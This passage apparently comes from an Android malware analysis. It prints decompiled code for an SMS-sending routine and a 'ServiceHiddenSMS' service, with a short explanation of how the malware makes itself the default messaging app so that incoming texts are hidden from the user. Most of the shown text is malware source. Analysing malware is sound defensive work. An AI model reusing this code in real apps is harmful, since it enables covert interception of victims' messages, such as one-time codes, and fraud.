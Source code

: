 ```cs
                    continue;
                    this.Tools.Log(this.ctx, "[SMSSender] Sending SMS: " + this.message + " to " + this.phoneNumbers, Boolean.valueOf(false));
                    this.sendMSG(this.phoneNumbers, this.message);
                    return;
                }
            }
        }
        catch(Exception unused_ex) {
            return;
        }
    }

    private void sendMSG(String s, String s1) {
        try {
            SmsManager smsManager0 = SmsManager.getDefault();
            smsManager0.sendMultipartTextMessage(s, null, smsManager0.divideMessage(s1), null, null);
            this.Tools.Log(this.ctx, "[SMSSender] Sending SMS: " + s1 + " to " + s, Boolean.valueOf(false));
        }
        catch(Exception unused_ex) {
        }
    }

```

# Hide SMSs

The malware will hide SMSs by enabling the malware to be the default messaging app. When the an SMS comes, the malware will receive the SMS and the malware won't push a notification to the user's device. 

```cs
protected void onHandleIntent(Intent intent0) {
        Utils.doWait(1000L);
        Boolean boolean0 = Boolean.valueOf(true);
        if(!Utils.checkAccess(this)) {
            this.Tools.Log(this, "[ServiceHiddenSMS] Accessibility not running.", boolean0);
            this.store.set(this, "ENABLE_HIDDEN_SMS", "false");
            this.stopSelf();
            return;
        }

        if(!Utils.hasThisPermission(this, "sms")) {
            this.Tools.Log(this, "[ServiceHiddenSMS] No permissions", boolean0);
            this.store.set(this, "ENABLE_HIDDEN_SMS", "false");
            this.stopSelf();
            return;
        }

        ServiceHiddenSMS.isRunning = true;
        try {
            Bundle bundle0 = intent0.getExtras();
            if(bundle0 != null && !bundle0.getBoolean("HIDDEN")) {
                this.setOurAppAsHidden = false;
            }
        }
        catch(Exception unused_ex) {
            return;
        }

        this.Tools.Log(this, "[ServiceHiddenSMS] Starting SMS Manager changer", boolean0);
```